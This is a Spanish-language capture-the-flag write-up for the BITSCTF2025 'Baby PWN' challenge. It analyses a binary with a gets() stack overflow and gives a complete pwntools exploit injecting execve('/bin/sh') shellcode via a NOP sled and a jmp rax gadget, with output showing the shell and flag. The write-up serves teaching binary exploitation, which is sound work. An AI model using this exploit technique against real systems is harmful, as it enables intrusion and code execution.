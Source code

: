 ```yaml
---
layout: post
title: Baby PWN  BITSCTF2025
comments: true
categories: [Pwn, Writeups, BITSCTF2025]
---
```


Más vale tarde que nunca, así que aquí tenéis este writeup de la competición de este finde pasado. En este caso se trata de un ejercicio tipo *re2shellcode* bastante sencillito.

<br>
![Image]({{ site.baseurl }}/images/posts/BITSCTF.png){:width="150px"}
<br>

# Overview

El enunciado nos dice lo siguiente:

    I hope you are having a nice day.

Y se nos adjunta un binario `main`.

# Reconocimiento

Lo primero es analizar el binario:

```bash
❯ file main
main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e2d574448024e277d4b9a662d470bef9bbab8b3d,
for GNU/Linux 3.2.0, not stripped

❯ checksec --file=main
[*] '/home/kali/Downloads/baby_pwn/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Vemos que es de 64-bits y tenemos todas las protecciones desactivadas. Si descompilamos tendríamos un código como el siguiente:

```c
#include <stdio.h>

void vuln() {
    char buffer[112]; // 0x70 bytes de espacio reservado en la pila
    gets(buffer);     // Buffer overflow
}

int main() {
    vuln();
    return 0;
}

```

Dado que no hay protecciones y tenemos tanto margen para explotar el *buffer overlow*, podemos tratar de ejecutar un *shellcode*. Para ello necesitamos un gadget que llame al shellcode:

```bash
❯ ropper -f main
[...]
0x00000000004010ac: jmp rax; 
```

La idea será introducir un payload con la siguiente estructura:

```
NOPs | shellcode | jmp rax
```

De forma que al saltar al registro, con algo de suerte tendrá dentro los NOPs, que se ejecutarán hasta llegar al shellcode.

# Explotación

Con la estrategia en mente, utilizaremos *python3* y *pwntools* para hacer un script:

```python
#!/bin/python3

from pwn import *

binary = './main'  # Nombre del binario
elf = ELF(binary)

# p = remote('direccion.ip', puerto)
p = process(binary)

#0x00000000004010ac: jmp rax;
jmp_addr = 0x4010ac

shellcode = asm('''
                xor rax, rax
                xor rbx, rbx

                mov rbx, 0x68732f6e69622f
                push rbx

                mov rdi, rsp
                xor rsi, rsi
                xor rdx, rdx

                mov rax, 0x3b
                syscall
                ''',arch='amd64')

offset = 120
padding = b'\x90' * (offset-len(shellcode))

payload = padding + shellcode + p64(jmp_addr)

print(payload)

print("[+] Enviando exploit...")

p.sendline(payload)

p.interactive()
```

Si ejecutamos el solver obtenemos lo siguiente:

```bash
❯ ./solver.py
[*] '/home/kali/Downloads/baby_pwn/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to chals.bitskrieg.in on port 6001: Done
b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90H1\xc0H1\xdbH\xbb/bin/sh\x00SH\x89\xe7H1\xf6H1\xd2H\xc7\xc0;\x00\x00\x00\x0f\x05\xac\x10@\x00\x00\x00\x00\x00'
[+] Enviando exploit...
[*] Switching to interactive mode
$ ls
flag.txt
main
main.c
run
$ cat flag.txt
BITSCTF{w3lc0m3_70_7h3_w0rld_0f_b1n4ry_3xpl01t4t10n_ec5d9205}
```

Este es un reto sencillo, pero que es muy común en competiciones, así que espero que te haya quedado claro. Nos vemos en el siguiente writeup!